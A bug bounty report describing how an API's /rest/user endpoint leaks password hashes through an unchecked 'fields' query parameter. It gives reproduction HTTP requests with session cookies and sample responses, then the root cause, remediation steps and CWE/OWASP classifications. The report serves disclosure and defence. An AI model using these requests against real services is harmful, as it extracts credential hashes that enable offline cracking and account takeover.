



# Bug Bounty Report: Sensitive Data Exposure via Unrestricted Field Selection (fields Parameter)

## Summary
An Insecure Direct Object Reference / Mass Assignment vulnerability exists in the /rest/user endpoint due to unrestricted user-controlled field selection via the fields query parameter. This allows attackers to extract sensitive attributes from the internal user object (including password) that are not intended to be exposed through the API. The application directly maps query input to backend object properties without a whitelist or schema enforcement.

---

## Technical Details
- Vulnerability Type: Insecure Direct Object Reference (IDOR) / Mass Assignment / Sensitive Data Exposure
- Severity: High
- Target Endpoint: /rest/user
- Authentication Required: Yes (valid session token required)

---

## Tools Used
- Web Browser
- Burp Suite Proxy (optional for request manipulation)
- Developer Tools (Network tab)

---

## Steps to Reproduce (PoC)

### 1. Baseline Request
Send an authenticated request:

HTTP Request:
GET /rest/user
Cookie: token=eyJ...

---

### 2. Test Field Filtering

HTTP Request:
GET /rest/user?fields=id,email
Cookie: token=eyJ...

HTTP Response:
{
  "user": {
    "id": 1,
    "email": "user@example.com"
  }
}

This confirms dynamic field selection is enabled.

---

### 3. Attempt Sensitive Field Access

HTTP Request:
GET /rest/user?fields=password
Cookie: token=eyJ...

HTTP Response:
{
  "user": {
    "password": "$2a$12$..."
  }
}

---

### 4. Multiple Field Enumeration

HTTP Request:
GET /rest/user?fields=id,email,password
Cookie: token=eyJ...

Sensitive internal attributes are returned when explicitly requested.

---

## Impact
- Exposure of password hashes
- Increased risk of offline credential attacks
- Internal object structure disclosure
- Potential escalation via additional hidden fields

---

## Root Cause
The backend directly maps user-controlled input to internal object keys:

baseUser[field] = user.data[field]

There is no:
- Field whitelist
- Schema validation
- Sensitive attribute filtering

This allows arbitrary exposure of internal model properties.

---

## Remediation

### 1. Implement Field Whitelisting
Only allow safe expected fields:

const allowedFields = [id, email, lastLoginIp, profileImage]

Reject all other fields.

---

### 2. Block Sensitive Attributes at Source
Ensure sensitive fields such as:
- password
- passwordHash
- resetToken

are never exposed via API responses.

---

### 3. Use DTO Layer
Map internal user objects to explicit response objects instead of exposing raw user data.

---

### 4. Validate Query Parameters
Reject unknown fields instead of silently processing them.

---

## Security Classification
- CWE-639 Authorization Bypass Through User-Controlled Key
- CWE-201 Information Exposure Through Sent Data
- OWASP API Top 10 API3 Broken Object Property Level Authorization